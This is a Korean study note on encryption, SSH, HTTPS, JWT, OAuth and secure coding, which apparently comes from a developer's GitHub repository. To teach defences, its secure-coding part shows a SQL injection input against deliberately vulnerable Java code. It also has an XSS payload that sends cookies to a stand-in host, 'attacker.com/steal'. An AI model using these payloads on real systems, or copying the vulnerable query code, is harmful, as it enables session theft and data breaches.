






## 보안


## 암호화 (Encryption)
암호화는 **_데이터를 보호하는 기술_** 로써, 해커거 데이터를 탈취하더라도 **_해당 데이터를 이해할 수 없도록 만드는 방법_** 이다. <br/>
예를 들어 사용자의 아이디와 패스워드를 데이터베이스에 저장했다고 가정했을때, 해커가 데이터베이스를 탈취하게 되면 해당 아이디와 패스워드를 그대로 사용할 수 있게 된다. 특히 아이디와 비밀번호 같은 경우 사용자가 여러 서비스에서 동일한 아이디와 비밀번호를 사용하는 경우가 많기 때문에, 해커는 탈취한 아이디와 비밀번호를 다른 서비스에서도 사용할 수 있게 된다. <br/>
따라서 보안이 중요한 데이터는 반드시 암호화하여 저장해야 하며, 해커가 탈취하더라도 해당 데이터를 사용할 수 없도록 해야 한다. <br/>
암호화는 단방향 암호화와 양방향 암호화로 나눌 수 있으며 암호화된 데이터를 복호화할 수 있는지 여부에 따라서 구분할 수 있다. <br/>

### 단방향 암호화 (One-way Encryption)
단방향 암호화는 암호화된 데이터를 복호화할 수 없는 방식으로, 주로 해시(Hash) 함수를 사용하여 데이터를 암호화한다. <br/>
예를 들어 사용자의 패스워드를 단방향 암호화하여 데이터베이스에 저장하는 경우, 해커가 데이터베이스를 탈취하더라도 해당 패스워드를 복호화할 수 없기 때문에, 해커는 해당 패스워드를 사용할 수 없게 된다. <br/>

#### 해시 (Hash)
해시 함수는 임의의 길이의 입력 데이터를 **_고정된 길이의 출력 데이터로 변환_** 하며, 입력 데이터가 조금만 변경되어도 완전히 다른 출력이 생성되는 특성을 가진다. (눈사태 효과) <br/>
때문에 일반적인 해시 함수(MD5, SHA)의 경우, 동일한 입력에 대해서는 항상 동일한 해시 값을 생성하지만, 서로 다른 입력에 대해서는 서로 다른 해시 값을 생성한다. <br/>
반대로 특정 해시 함수(BCrypt)는 동일한 입력에 대해서도 Salt(임의의 값)을 이용하여 매번 다른 해시 값을 생성한다. <br/>

해시 함수는 다음과 같은 상황에서 활용된다.
- **보안이 중요한 데이터 저장**: 보안이 중요한 데이터(예: 패스워드)를 데이터베이스에 저장할 때, 해당 데이터를 해시하여 저장함으로써, 해커가 데이터베이스를 탈취하더라도 원본 데이터를 복원할 수 없도록 한다.
- **데이터 무결성 검증**: 원격 서버에 데이터를 송수신할때, 중간에 데이터가 손상되거나 변조되었는지 검증하기 위해서 원본 데이터의 해시 값과 수신된 데이터의 해시 값을 비교하여 무결성을 검증한다. (예: 파일 업로드/다운로드, Git 커밋 ID)

> [해시](https://github.com/yhnoh/java/tree/master/java/src/main/java/org/example/hash)

### 양방향 암호화 (Two-way Encryption)
양방향 암호화는 암호화된 데이터를 복호화할 수 있는 방식으로, 대칭키 암호화와 비대칭키 암호화로 나눌 수 있다. <br/>
- **대칭키 암호화**: 암호화와 복호화에 동일한 키를 사용하는 방식으로, AES(Advanced Encryption Standard)가 대표적인 알고리즘이다. 대칭키 암호화는 **_암호화와 복호화가 빠르지만, 키 관리가 어렵다는 단점_**이 있다. (키를 안전하게 저장하고 전달하는 것이 어려움)
- **비대칭키 암호화**: 암호화와 복호화에 서로 다른 키를 사용하는 방식으로, 공개키 암호화라고도 불린다. RSA(Rivest-Shamir-Adleman)가 대표적인 알고리즘이다. 비대칭키 암호화는 **_키 관리가 용이하지만, 암호화와 복호화가 느리다는 단점_** 이 있다. (공개키는 자유롭게 배포할 수 있지만, 개인키는 안전하게 보관해야 함) 공개키와 개인키는 주로 해시함수를 이용하여 생성한다. <br/>

**_비대칭 암호화는 복호화가 느리기 때문에 키 교환 단계에서만 사용하고, 실제 데이터 전송은 대칭키 암호화_** 를 사용하는 경우가 많다. 특히 HTTPS나 SSH와 같은 보안 프로토콜에서는 _사전준비는 비대칭 암호화를 사용하고, 실제 통신은 대칭키 암호화를 사용하여 **_보안과 성능을 모두 확보_**한다. <br/>


#### 비대칭 암호화에서 공개키와 개인키는 누가 가지고 있어야 할까?
공개키와 개인키는 암호화와 복호화에 사용되는 키로, 각각의 역할과 보안 요구사항에 따라서 누가 가지고 있어야 하는지가 달라진다.

- **개인키**: 개인키는 주로 데이터를 복호화하거나 디지털 서명을 생성하는데 사용되는 키로 개인키는 해당 키의 소유자만이 가지고 있어야 하며, 절대로 다른 사람과 공유해서는 안 된다. <br/>
- **공개키**: 공개키는 주로 데이터를 암호화하거나 디지털 서명을 검증하는데 사용되는 키로 공개키는 자유롭게 배포할 수 있으며, 누구나 접근할 수 있도록 공개되어야 한다. 해당 공개키를 공개 가능한 이유는 개인키가 없으면 공개키로 암호화된 데이터를 복호화할 수 없거나 디지털 서명을 생성할 수 없기 때문이다. <br/>

주로 데이터의 보안 측면에서는 서버에서 공개키 및 개인키를 생성하는 경우가 많으며, 클라이언트는 서버의 공개키를 이용하여 데이터를 암호화하여 전송하고, 서버는 자신의 개인키를 이용하여 해당 데이터를 복호화하는 방식으로 사용된다. <br/>
반대로 디지털 서명의 경우에는 클라이언트에서 공개키 및 개인키를 생성하는 경우가 많으며, 클라이언트는 자신의 개인키를 이용하여 디지털 서명을 생성하고, 서버는 클라이언트의 공개키를 이용하여 해당 디지털 서명(클라이언트)을 검증하는 방식으로 사용된다. <br/>

> 위 내용도 보편적인 경우에 대한 설명이며, 실제로는 서비스의 요구사항과 보안 정책에 따라서 공개키와 개인키의 생성 주체와 보유 주체가 달라질 수 있다. <br/>


### SSH, HTTPS, JWT, OAuth

#### SSH (Secure Shell) - 클라이언트 신원 증명

SSH은 원격 서버에 안전하게 접속하기 위한 프로토콜로, **_클라이언트의 신원을 증명_** 하기 위해 공개키 암호화 방식을 사용한다. <br/>

**키 생성 주체**: 클라이언트

| | 보유 키 |
|---|---|
| **클라이언트** | 개인키 |
| **서버** | 클라이언트 공개키 (authorized_keys에 등록) |

1. SSH는 클라이언트가 공개키/개인키를 생성하며, 공개키를 접속하고자 하는 서버의 `authorized_keys`에 사전 등록한다.
2. 이후 클라이언트가 접속시 서버에서 랜덤 데이터를 클라이언트에게 전송한다.
3. 클라이언트는 자신의 개인키와 전달 받은 랜덤 데이터를 이용하여 디지털 서명을 생성하여 서버에 전송한다.
4. 서버는 클라이언트의 공개키로 해당 디지털 서명을 검증하여, 클라이언트가 해당 개인키의 소유자인지 확인한다.
5. 이후 인증이 완료되면, 클라이언트와 서버는 세션키(대칭키)를 생성하고, 해당 세션키로 통신을 암호화하여 안전하게 데이터를 주고받는다.

**보안 이점**
- 비밀번호 무작위 대입 공격(Brute-force attack) 방지
- 공개키가 등록된 클라이언트만 접근 가능
- 대칭키를 이용한 암호화 통신으로 데이터 도청 방지 및 중간자 공격 방지

**[1단계] 인증 과정** - 비대칭키 사용



**[2단계] 통신 과정** - 대칭키(세션키) 사용



> [Hyun / Log > SSH (Secure SHell) 란? 쉽게 이해해보자.](https://hstory0208.tistory.com/entry/SSH-Secure-SHell-%EB%9E%80-%EC%89%BD%EA%B2%8C-%EC%9D%B4%ED%95%B4%ED%95%B4%EB%B3%B4%EC%9E%90)

---

#### HTTPS (HyperText Transfer Protocol Secure) - 서버 신원 증명

HTTPS는 HTTP에 보안 계층(SSL/TLS)을 추가하여, **_서버의 신원을 검증하고 클라이언트와 서버 간의 통신을 암호화_** 하는 프로토콜이다. <br/>
SSL/TLS를 적용하기 위해서는 인증서를 발급받아 서버에 적용시켜야 하며, 이러한 인증서를 발급하는 기관을 CA(Certificate Authority)라고 한다.


**키 생성 주체**: 서버, 인증서 발급 시 CA(인증기관)가 서명

| | 보유 키 |
|---|---|
| **클라이언트 (브라우저)** | CA 공개키 (브라우저 or 클라이언트 내장) |
| **서버** | 개인키 + 서버 공개키 (인증서에 포함) |
| **CA** | CA 개인키 (인증서 서명용) |

1. 서버가 공개키/개인키를 생성하고, CA에 서버 공개키와 도메인 정보를 담은 인증서 서명 요청(CSR)을 제출한다.
2. CA는 서버의 정보를 검토하고, CA 개인키로 서명한 인증서를 발급한다. 인증서에는 서버의 공개키, 도메인 정보, 유효기간, CA의 디지털 서명이 포함된다.
3. 서버는 발급받은 인증서를 웹 서버(nginx, apache 등)에 설치하여, 클라이언트 연결 시 인증서를 제공할 수 있도록 설정한다.
4. 클라이언트가 서버에 연결을 요청하면, 서버는 인증서를 클라이언트에게 전송한다.
5. 클라이언트는 브라우저 또는 클라이언트에 내장된 CA 공개키로 인증서의 CA 서명을 검증하여 서버의 신원을 확인한다.
6. 클라이언트는 세션키(대칭키)를 생성하고, 서버의 공개키로 암호화하여 서버에 전달한다.
7. 서버는 자신의 개인키로 복호화하여 세션키를 획득한다.
8. 이후 모든 통신은 세션키(대칭키)로 암호화하여 주고받는다.


**보안 이점**
- 클라이언트에게 서버의 신원을 증명하여, 가짜 서버(피싱 사이트)와의 연결 방지 -> 인증된 서버와만 통신하도록 보장
- 대칭키를 이용한 암호화 통신으로 데이터 도청 방지 및 중간자 공격 방지


**[1단계] 인증 과정** - 비대칭키 사용



**[2단계] 통신 과정** - 대칭키(세션키) 사용



> [Hyun / Log > HTTP와 HTTPS의 개념 및 차이에 대해 알아보자](https://hstory0208.tistory.com/entry/HTTP%EC%99%80-HTTPS%EC%9D%98-%EA%B0%9C%EB%85%90-%EB%B0%8F-%EC%B0%A8%EC%9D%B4%EC%A0%90%EC%97%90-%EB%8C%80%ED%95%B4-%EC%95%8C%EC%95%84%EB%B3%B4%EC%9E%90)

---

#### JWT (JSON Web Token) - 토큰 위변조 방지

JWT는 JSON 형식의 데이터를 안전하게 전달하기 위한 토큰으로, **_토큰의 위변조를 방지_** 하기 위해서 대칭키 또는 비대칭키를 이용하는 디지털 서명을 사용한다. <br/>
웹 애플리케이션에서 주로 인증과 권한 부여에 사용되며, 서버가 발급한 JWT 토큰을 클라이언트가 보관하고, 이후 API 요청 시 해당 토큰을 함께 전달하여 서버가 토큰의 유효성을 검증하는 방식으로 사용된다. <br/>

**키 생성 주체**: 서버 (HS256 알고리즘 기준)

| | 보유 키 |
|---|---|
| **클라이언트** | 서버가 발급한 JWT 토큰 (키 없음) |
| **서버** | 비밀키 (서명 생성 + 검증 모두 사용) |

1. 서버가 비밀키(Secret Key)를 생성하고 안전하게 보관한다.
2. 클라이언트가 로그인 요청을 하면, 서버는 토큰 페이로드(사용자 정보, 만료시간 등)와 비밀키를 이용하여 서명값을 생성한다.
3. 서버는 페이로드와 서명값을 합친 JWT 토큰을 클라이언트에게 발급한다.
4. 클라이언트는 이후 API 요청 시 JWT 토큰을 함께 전달한다.
5. 서버는 동일한 비밀키로 서명값을 재생성하여 토큰의 서명값과 비교하고, 서버가 발급한 토큰인지, 변조 여부를 확인한다.

**보안 이점**
- 토큰 위변조 불가, 서버가 발급한 토큰인지 검증 가능
- Stateless 인증 -> 서버 확장(스케일 아웃) 시 세션 공유 불필요

**주의 사항**
- 비밀키가 유출되면 누구든 유효한 토큰을 생성 및 검증할 수 있음
- 이미 발급된 토큰은 만료될 때까지 유효하므로, 토큰 유출시 피해가 클 수 있음
- 여러 서비스가 토큰을 검증해야 하는 경우, 비밀키를 공유해야 하므로 보안 위험이 증가함



---

#### OAuth 2.0 - 권한 위임 프레임워크
OAuth 2.0은 권한 위임 프레임워크로, 사용자가 **_자신의 비밀번호를 제공하지 않고도
제3의 애플리케이션이 사용자를 대신하여 API에 접근할 수 있도록 권한을 위임하는 방식_** 이다. <br/>
주로 소셜 로그인(예: Google로 로그인)이나 API 접근 권한 위임(예: 타사 앱이 Google Calendar API에 접근) 등에 사용된다. <br/>
OAuth 2.0 자체는 암호화 기술이 아니며, HTTPS와 JWT 등의 보안 기술과 함께 사용되어 권한 위임을 안전하게 구현한다. <br/>
OAuth 2.0에는 4가지 주체가 존재하며 각 주체는 서로 다른 역할과 보유 키/자격증명을 가지고 있다.

| 참여자 | 역할 | 보유 키 |
|---|---|---|
| **Resource Owner** (사용자) | 서비스를 이용하려는 권한을 가진 주체 | - |
| **Client** (제3의 앱) | Resource Owner를 대신하여 Resource Server의 API에 접근하는 애플리케이션 | Client ID + Client Secret, Access Token |
| **Authorization Server** | 사용자를 인증하고 Client에게 Access Token을 발급하는 서버 (예: Google, Kakao) | 개인키 (JWT 서명용) + 공개키 (검증용) |
| **Resource Server** | Access Token으로 보호된 API를 제공하는 서버 (예: Google Calendar API) | 공개키 (JWT 검증용) |

**보안 이점**
- 사용자 비밀번호를 제3자 앱에 공유하지 않음 -> 비밀번호 탈취 위험 감소
- 권한 범위(scope) 제한 가능 -> 최소 권한 원칙 적용 (예: 이메일만 읽기)




> [Infa > OAuth 2.0 개념 정리](https://inpa.tistory.com/entry/WEB-%F0%9F%93%9A-OAuth-20-%EA%B0%9C%EB%85%90-%F0%9F%92%AF-%EC%A0%95%EB%A6%AC)


## 시큐어 코딩

시큐어 코딩이란 소프트웨어 개발 과정에서 **_보안 취약점을 최소화하기 위해 보안 원칙과 모범 사례를 적용하여 코드를 작성하는 것_** 을 의미한다. <br/>
사용자의 개인정보, 시스템 자원 등을 보호하기 위해서, 개발자는 시큐어 코딩을 통해 보안 취약점을 예방하고, 악의적인 공격으로부터 애플리케이션을 안전하게 보호해야 한다. <br/>

### 데이터 암호화
데이터 암호화는 시큐어 코딩의 중요한 원칙 중 하나로, 보안이 중요한 데이터를 암호화하여 저장하거나 전송하는 것을 의미한다. <br/>
이는 해커가 **_데이터를 탈취하더라도 해당 데이터를 이해할 수 없도록_** 만들어, 데이터 유출로 인한 피해를 최소화하는 데 도움이 된다. <br/>
예를 들어 JWT 페이로드, 데이터베이스에 저장되는 중요 정보(예: 패스워드, 개인정보), 민감한 정보가 포함된 로그 메시지 등을 암호화하여 저장하는 것이 시큐어 코딩의 좋은 예시이다. <br/>

### 예외 처리
예외 처리시 예외 메시지에 민감한 정보가 포함되지 않도록 주의해야 한다. 예외 메시지에 시스템 정보, DB 정보등이 해커가 시스템의 취약점을 파악하는데 도움이 될 수 있기 때문이다. <br/>
예외 메시지에는 **_사용자에게 필요한 정보만 제공_** 하고, **_내부적으로는 상세한 예외 정보를 로그로 기록_** 하여, 개발자나 운영자가 문제를 파악할 수 있도록 하는 것이 좋다. <br/>

### 입력 데이터 검증
입력 데이터 검증은 사용자가 입력한 데이터를 적절한 형식과 범위로 제한하여, 악의적인 입력으로 인한 보안 취약점을 예방하는 것이다. <br/>
적절한 형식이나 범위로 입력 데이터를 검증하지 않으면, 해커가 **_악의적인 입력을 통해 시스템에 악영향을 미치거나 사용자 데이터를 탈취_**할 수 있게 된다. <br/>

#### 인증 및 인가
인증(Authentication)은 사용자가 누구인지 확인하는 과정이고, 인가(Authorization)는 인증된 사용자가 어떤 자원에 접근할 수 있는지를 결정하는 과정이다. <br/>
인증과 인가 과정이 제대로 구현되어 있지 않으면 해커가 인증되지 않은 사용자로 시스템에 접근하거나, 인증된 사용자라도 권한이 없는 자원에 접근할 수 있게 된다. <br/>
이는 해커가 시스템에 마음대로 접근하여 다른 사용자의 데이터 탈취, 데이터 변조 등 심각한 피해가 발생할 수 있다.

#### SQL 인젝션 (SQL Injection)
SQL 인젝션은 공격자가 악의적인 SQL 코드를 입력값에 삽입하여, 개발자가 의도하지 않은 SQL 쿼리를 실행시키는 공격 기법이다. <br/>
이를 통해 인증 우회, 데이터 탈취, 데이터 삭제/변조 등 심각한 피해가 발생할 수 있다. <br/>

**공격 예시**

아래 코드는 사용자 입력값을 문자열로 직접 이어붙여 SQL 쿼리를 생성한다.
```java
// 취약한 코드: 사용자 입력을 문자열로 직접 이어붙임
String query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'";
```

공격자가 `username`에 `' OR '1'='1`을 입력하면 쿼리가 다음과 같이 변형된다.
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '...'
-- '1'='1'은 항상 참이므로 비밀번호 없이 모든 사용자 조회 가능
```

**방어 방법: PreparedStatement 사용**

PreparedStatement는 SQL 쿼리를 미리 컴파일하여 SQL 구조를 고정시키고, 입력값을 단순 문자열로 처리하여 SQL 인젝션을 방지한다.<br/>
입력값이 SQL 구조에 영향을 줄 수 없으므로, SQL 인젝션을 근본적으로 차단한다.

```java
// 안전한 코드: PreparedStatement로 파라미터 바인딩
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setString(1, username);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```


### 웹 보안 기술

#### CORS (Cross-Origin Resource Sharing)
브라우저는 기본적으로 **동일 출처 정책(Same-Origin Policy) 을 적용하여, 다른 출처(도메인/포트/프로토콜)의 API 요청을 차단**한다. <br/>
CORS는 서버가 응답 헤더를 통해 "이 출처는 허용한다"고 명시함으로써, 신뢰된 출처의 cross-origin 요청만 허용하는 메커니즘이다. <br/>

```
# 브라우저가 보내는 요청 헤더
Origin: https://app.example.com

# 서버 응답 헤더 (허용된 출처만 명시)
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Authorization, Content-Type
```

> **주의**: `Access-Control-Allow-Origin: *` (와일드카드) 설정은 모든 출처를 허용하므로, 공개 API가 아닌 경우 사용하지 않는다.


#### 크로스 사이트 스크립팅 (XSS: Cross-Site Scripting)
XSS는 공격자가 악의적인 스크립트를 웹 페이지에 삽입하여, 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 하는 공격 기법이다. <br/>
이를 통해 세션 쿠키 탈취, 피싱 페이지 노출, 악성 행위 실행 등의 피해가 발생할 수 있다. <br/>

**공격 예시**

아래 코드는 사용자 입력값을 그대로 HTML에 출력한다.
```java
// 취약한 코드: 사용자 입력을 HTML에 그대로 출력
String comment = request.getParameter("comment");
response.getWriter().println("<p>" + comment + "</p>");
```

공격자가 `comment`에 아래와 같은 스크립트를 입력하면, 해당 페이지를 방문한 다른 사용자의 브라우저에서 스크립트가 실행된다.
```html
<script>document.location='https://attacker.com/steal?cookie='+document.cookie</script>
<!-- 피해자의 세션 쿠키가 공격자 서버로 전송됨 -->
```

**방어 방법1. 출력 인코딩**

HTML 출력 시 특수문자를 이스케이프 처리하여, 브라우저가 스크립트를 실행하는 것이 아니라 단순 텍스트로 처리하도록 한다. <br/>
```java
// 안전한 코드: HTML 특수문자 인코딩 후 출력
import org.springframework.web.util.HtmlUtils;

String comment = request.getParameter("comment");
String safeComment = HtmlUtils.htmlEscape(comment);
// <script>... → &lt;script&gt;...로 변환되어 브라우저가 텍스트로 처리
response.getWriter().println("<p>" + safeComment + "</p>");
```

| 특수문자 | 인코딩 결과 |
|---|---|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `'` | `&#x27;` |
| `&` | `&amp;` |


**방어 방법2. HttpOnly 쿠키 설정**

XSS 공격으로 쿠키가 탈취되는 것을 방지하기 위해, 쿠키에 `HttpOnly` 속성을 설정하여 JavaScript에서 해당 쿠키에 접근할 수 없도록 한다. <br/>

```java
// 안전한 쿠키 설정 예시
ResponseCookie cookie = ResponseCookie.from("SESSION", sessionId)
        .httpOnly(true)       // JavaScript 접근 차단 (XSS 방어)
        .secure(true)         // HTTPS에서만 전송
        .sameSite("Strict")   // 동일 도메인 요청만 쿠키 전송 (CSRF 방어)
        .maxAge(Duration.ofHours(1))
        .path("/")
        .build();
response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
```


#### 크로스 사이트 요청 위조 (CSRF: Cross-Site Request Forgery)
